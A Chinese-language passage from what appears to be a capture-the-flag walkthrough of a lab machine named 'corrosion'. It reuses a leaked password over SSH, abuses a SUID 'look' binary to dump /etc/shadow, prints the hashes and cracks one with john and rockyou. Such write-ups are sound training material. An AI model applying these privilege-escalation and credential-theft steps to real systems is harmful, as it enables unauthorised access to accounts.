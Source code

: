 ```
tomcat@corrosion:/home$ ls
jaye
randy
```



尝试撞库攻击，使用 manager 的密码（**melehifokivai**），去 ssh 登录这两个用户，发现 jaye 用户密码和 manager 密码一致。

登录 jaye 账户后发现其存在一个 **SUID 和 SGID** 的可执行文件。

- 当用户执行该文件时，进程的 **有效用户 ID** 会临时变为文件所有者（`root`）。
- 进程的 **有效组 ID** 会临时变为文件所属组（`root`）。

```
jaye@corrosion:~/Files$ file look
look: setuid, setgid executable, regular file, no read permission
```



`look` 是一个命令行工具，通常用于在 **已排序的文件** 中查找以特定字符串开头的行。它的行为类似于简化的 `grep`，但专为快速查找前缀设计。

- `[-bdf]`：可选参数（选项）：
    - `-b`：在查找时忽略字符串前的空白（如空格、制表符）。
    - `-d`：仅比较字母、数字和空格（忽略其他字符，如标点符号）。
    - `-f`：忽略大小写（如将 "A" 和 "a" 视为相同）。
- `[-t char]`：指定终止符（`char` 是一个字符），仅匹配到该字符前的字符串。
- `string`：要查找的 **前缀字符串**（必需参数）。
- `[file ...]`：要搜索的文件列表（可选参数，默认可能使用系统字典文件）。



当普通用户 jaye 执行 look 命令是，look 命令会以 root 权限运行，使用 look 读取 /etc/shadow 文件

```
jaye@corrosion:~/Files$ ./look '' /etc/shadow 
root:$6$fHvHhNo5DWsYxgt0$.3upyGTbu9RjpoCkHfW.1F9mq5dxjwcqeZl0KnwEr0vXXzi7Tld2lAeYeIio/9BFPjUCyaBeLgVH1yK.5OR57.:18888:0:99999:7:::
...
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
...
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
...
jaye:$6$Chqrqtd4U/B1J3gV$YjeAWKM.usyi/JxpfwYA6ybW/szqkiI1kerC4/JJNMpDUYKavQbnZeUh4WL/fB/4vrzX0LvKVWu60dq4SOQZB0:18887:0:99999:7:::
```



使用 john 成功爆破 randy 密码

```
john — wordlist=/usr/share/wordlists/rockyou.txt hash.txt
...
07051986randy
```
